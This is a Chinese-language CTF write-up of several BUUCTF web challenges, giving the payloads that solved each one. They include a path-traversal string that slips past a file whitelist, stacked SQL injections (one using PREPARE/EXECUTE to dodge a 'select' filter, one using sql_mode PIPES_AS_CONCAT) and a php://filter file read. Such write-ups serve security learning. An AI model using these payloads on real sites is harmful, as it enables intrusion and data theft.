 ```yaml
---
title: BUUCTF-web
date: 2021-05-26 00:22:53
author: sec
---
```

@[TOC](目录)
# [HCTF 2018]WarmUp
源码发现提示source.php审计PHP。发现有三个地方可以返回Ture但是只有后两个是可以的，所以考虑后两个。（第一个无法访问flag）
![在这里插入图片描述](img/20210525234649987.png)
白名单，只有source.php和hint.php。
![在这里插入图片描述](img/20210525234721297.png)
mb_substr()![在这里插入图片描述](img/20210525234804658.png)
返回字符串从第二个参数到第三个参数的值即str[0:2]
mb_strpos()![在这里插入图片描述](img/20210525234831403.png)
查找到第一个含有第二个参数的位置。
可以构造payload`file=hint.php?../../../../../ffffllllaaaagggg`
第二个绕过
![在这里插入图片描述](img/2021052523512553.png)
对第一个进行url编码`file=hint.php%3F..%2F..%2F..%2F..%2F..%2Fffffllllaaaagggg`

# [极客大挑战 2019]Havefun
源码有提示`cat =dog`出flag
# [强网杯 2019]随便注
输入一个'直接报错。可以sql注入，但是过滤了select![在这里插入图片描述](img/20210526164235490.png)
我们在这里用堆叠查询
查表
![在这里插入图片描述](img/20210526164435368.png)
```
1';show columns from `1919810931114514`;#
```
![在这里插入图片描述](img/20210526165035781.png)
发现flag列
这里献上大佬的payload
```
1';SET @sql = CONCAT('sel','ect',' * from `1919810931114514`;');PREPARE dawn from @sql;EXECUTE dawn;#
```
# [SUCTF 2019]EasySQL
可以进行堆注入；
1;show tables;
![在这里插入图片描述](img/20210526170859138.png)
有flag表；
`在oracle 缺省支持 通过 ‘ || ’ 来实现字符串拼接，但在mysql 缺省不支持。需要调整mysql 的sql_mode
模式：pipes_as_concat 来实现oracle 的一些功能`
```
1;set sql_mode=PIPES_AS_CONCAT;select 1
```
非预期解:`*,1`
# [ACTF2020 新生赛]Include
考察php伪协议读取flag.php
`file=php://filter/read=convert.base64-encode/resource=flag.php`